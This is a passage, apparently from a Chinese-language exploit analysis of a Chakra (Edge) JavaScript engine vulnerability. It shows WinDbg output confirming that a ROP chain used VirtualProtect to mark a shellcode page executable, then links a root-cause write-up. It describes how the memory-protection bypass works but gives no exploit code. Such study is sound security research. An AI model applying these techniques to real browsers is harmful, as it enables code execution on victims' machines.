chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xcf:
00007ff9`6b1ca2df 8bd8            mov     ebx,eax
```

查看调用VirtualProtect之后的shellcode address属性

<pre>
<code>
0:012> !address rdi
Mapping file section regions...
Mapping module regions...
Mapping PEB regions...
Mapping TEB and stack regions...
Mapping heap regions...
Mapping page heap regions...
Mapping other regions...
Mapping stack trace database regions...
Mapping activation context regions...

Usage:                  &lt;unknown&gt;
Base Address:           00000126`05297000
End Address:            00000126`05298000
Region Size:            00000000`00001000 (   4.000 kB)
State:                  00001000          MEM_COMMIT
Protect:                00000040          <b><font color="red">PAGE_EXECUTE_READWRITE</font></b>
Type:                   00020000          MEM_PRIVATE
Allocation Base:        00000126`05290000
Allocation Protect:     00000004          PAGE_READWRITE
Content source: 1 (target), length: 1000
</code>
</pre>

看来shellcode地址的属性的确被修改为可执行权限了，虽然这个ROP写的比传统的ROP要简单很多，但是，目的都是一样的，为了修改shellcode所在地址的保护权限。
后面就是执行shellcode，有兴趣自己再调试一下吧。

**关于漏洞成因分析参考这篇文章**
[http://blogs.360.cn/360safe/2016/11/29/three-roads-lead-to-rome/](http://blogs.360.cn/360safe/2016/11/29/three-roads-lead-to-rome/)

